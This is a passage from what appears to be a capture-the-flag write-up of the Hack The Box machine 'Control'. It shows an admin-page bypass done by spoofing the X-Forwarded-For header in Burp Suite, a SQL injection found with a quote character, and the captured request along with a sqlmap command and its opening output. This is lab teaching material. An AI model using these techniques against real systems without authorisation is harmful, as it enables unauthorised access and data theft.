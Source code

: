 There is an IP address we may be able to use as a forward proxy. Mozilla has a good description of this HTTP parameter [https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For). It's used to tell the server who is connecting, though, with BurpSuit, it can easily be fooled. We one needs to do is, in BurpSuit's proxy thumbnail, in the option, go down to the `Match and replace` and add this parameter.

<img src="{{site.baseurl}}/assets/img/posts/control/Screenshot_at_2020-04-13_13-48-03.png" alt="Screenshot_at_2020-04-13_13-48-03" style="display: block;  margin-left: auto; margin-right: auto;" />

No we can access the admin page through burpsuit proxy. (Just remember not to intercept the packets).

<img src="{{site.baseurl}}/assets/img/posts/control/Screenshot_2020-04-19_admin.png" alt="Screenshot_2020-04-19_admin" style="display: block;  margin-left: auto; margin-right: auto;" />

Looking around, we have some fields we can play around. The first field allows use to search in the database. This is prone to sql injection, we can try different quotes and see what happens. And Indeed, by entering `'`, we see an error message.

<img src="{{site.baseurl}}/assets/img/posts/control/Screenshot_2020-04-19_admin.png" alt="Screenshot_2020-04-19_admin" style="display: block;  margin-left: auto; margin-right: auto;" />

Now we can use burpsuit again to capture the request and see how we it works.

```
POST /search_products.php HTTP/1.1
Host: 10.10.10.167
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://10.10.10.167
DNT: 1
Connection: close
Referer: http://10.10.10.167/admin.php
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 192.168.4.28

productName=test
```

So when we hit search, the variable `productName` is pased through to `search_products.php`. We can use `sqlmap` ot further scan this vulnerability. For that though, we'll need to specify to `sqlmap` that it needs to use our proxy. For details on how to use `sqlmap`, check this link out [https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/](https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/)

```sh
$sqlmap -u http://10.10.10.167/search_products.php --data productName=1 --proxy http://127.0.0.1:8080
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.3#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:56:24 /2020-04-13/

[14:56:24] [INFO] testing connection to the target URL
[14:56:26] [INFO] testing if the target URL content is stable
[14:56:27] [INFO] target URL content is stable
[14:56:27] [INFO] testing if POST parameter 'productName' is dynamic
```